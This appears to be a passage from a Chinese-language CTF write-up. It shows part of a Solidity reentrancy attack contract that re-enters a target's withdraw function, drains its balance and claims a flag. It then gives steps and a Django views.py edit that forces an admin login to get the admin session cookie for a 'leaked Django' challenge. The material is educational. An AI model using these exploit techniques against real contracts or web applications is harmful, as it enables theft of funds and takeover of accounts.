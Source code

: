 ```
        owner = msg.sender;
        c.deposit.value(msg.value)();
    }
    function() public payable {
        number++;
        uint weHave=0.1 ether;
        c.withdraw(weHave);
    }
    
    function attack() public {
        c.withdraw(0);
    }
    function getmoney() public {
        owner.transfer(this.balance);
    }
    function end() public {
        uint x = 1076008070892;
        c.get_flag_2(x);
    }
}
```

先转账，然后攻击
稍等一会儿运行end




# 泄露的姜戈


github把代码下载下来，改一下`views.py`里面的代码，让他返回admin登录时候的cookie，然后用这个cookie登录题目就行了

```
from django.contrib.auth.models import User

def index(request):
    if request.method == "GET":
        if request.user.is_authenticated:
            return redirect(reverse("profile"))
        return render(request, 'app/index.html', {
            # "name": "admin"
            "name": name
        })
    elif request.method == "POST":
        username = request.POST["username"]
        password = request.POST["password"]
        user = authenticate(request, username=username, password=password)
        if user is not None:
            # login(request, user)
            u = User.objects.get(username='admin')   # 添加这行和下一行
            login(request, u)

```
